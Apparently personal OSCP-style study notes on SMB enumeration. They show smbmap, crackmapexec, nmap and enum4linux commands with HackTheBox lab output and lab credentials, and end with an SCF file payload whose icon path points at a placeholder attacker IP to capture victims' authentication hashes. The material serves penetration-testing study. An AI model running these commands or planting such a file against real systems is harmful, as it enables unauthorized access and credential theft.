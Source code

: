 ## [SMB Enumeration (Port 139, 445)](https://gabb4r.gitbook.io/oscp-notes/service-enumeration/smb-enumeration)
## smbmap
```sh
smbmap -H $ip
smbmap -H $ip -u ''
smbmap -H $ip -u '' -p ''

crackmapexec smb $ip
crackmapexec smb $ip -u '' -p ''
crackmapexec smb $ip -u FSmith -p Thestrokes23
crackmapexec smb $ip -u FSmith -p Thestrokes23 --shares
```

```sh
$ smbmap -h | g \\-H 
usage: smbmap [-h] (-H HOST | --host-file FILE) [-u USERNAME] [-p PASSWORD]
  -H HOST               IP of host
```
##  Examples
```sh
$ smbmap -H $ip -r Replication                               
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Replication                                             READ ONLY
        .\Replication\*
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 18:37:44 2018    active.htb
```

```sh
$ smbmap -h | gi \\-r
              [--mode CMDMODE] [-L | -R [PATH] | -r [PATH]] [-A PATTERN | -g]
  
  -R [PATH]             Recursively list dirs, and files (no share\path lists

  -r [PATH]             List contents of directory, default is to list root of
                        all shares, ex. -r 'C$\Documents and
                        a file on a match (requires -R or -r), not case
```



```sh
$ find active.htb -type f 
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
```

[Nmap NSE SMB](https://www.blackhillsinfosec.com/a-pentesters-voyage-the-first-few-hours/)
| too long, tweak this
```
sudo nmap -sSUV -p U:137,T:139,445 --script 'smb* and not brute' $ip
```

### Without cred
```sh
enum4linux $ip | tee enum4linux_$(date +%y%m%d-%H%M).txt
```

### With cred
```sh
enum4linux $ip -u support -p '#00^BlackKnight' | tee enum4linux-creds_$(date +%y%m%d-%H%M).txt
```

```sh
[SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
vi @pentestlab.scf
```
[Shell]
Command=2
IconFile=\\<Attacker's IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```